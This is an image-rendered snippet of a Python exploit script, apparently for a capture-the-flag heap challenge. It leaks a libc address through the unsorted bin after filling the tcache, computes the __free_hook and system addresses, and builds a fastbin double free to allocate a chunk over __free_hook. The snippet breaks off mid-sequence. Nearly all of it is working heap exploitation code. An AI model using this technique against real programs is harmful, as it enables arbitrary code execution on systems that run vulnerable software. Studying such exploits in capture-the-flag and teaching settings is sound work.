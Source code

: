 ```python
    def deln(idx:int):
        sh.sendlineafter(b'ice:', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'ice:', b'2')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recvline()

    # leak libc addr (unsorted bin)
    addn(0, 0x80)
    addn(1, 0x80)
    addn(2, 0x80)
    addn(3, 0x80)
    addn(4, 0x80)
    addn(5, 0x80)
    addn(6, 0x80)
    addn(7, 0x80)
    deln(7)
    deln(6)
    deln(5)
    deln(4)
    deln(3)
    deln(2)
    deln(1)
    deln(0) # 1-7 in tcache, 0 in unsorted bin
    ret = show(0)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0')
    libcBase = mainArena - dumpArena - 0x60 # sub unsorted bin offset
    print(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    freeHook = libcBase + libc.symbols['__free_hook']
    systemAddr = libcBase + libc.symbols['system']

    # double free to alloc at freeHook
    addn(15, 0x28) # there is a 0x30-size chunk in tcache and causing double free detection
    addn(0, 0x18)  # so we need to alloc it to solve it
    addn(1, 0x18)
    addn(2, 0x18)
    addn(3, 0x18)
    addn(4, 0x18)
    addn(5, 0x18)
    addn(6, 0x18)
    addn(7, 0x18)
    addn(8, 0x18)
    deln(8)
    deln(7)
    deln(6)
    deln(5)
    deln(4)
    deln(3)
    deln(2) # 2-8 in tcache
    deln(1)
    deln(0)
    deln(1) # in fastbin: head -> 1 -> 0 -> 1
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
```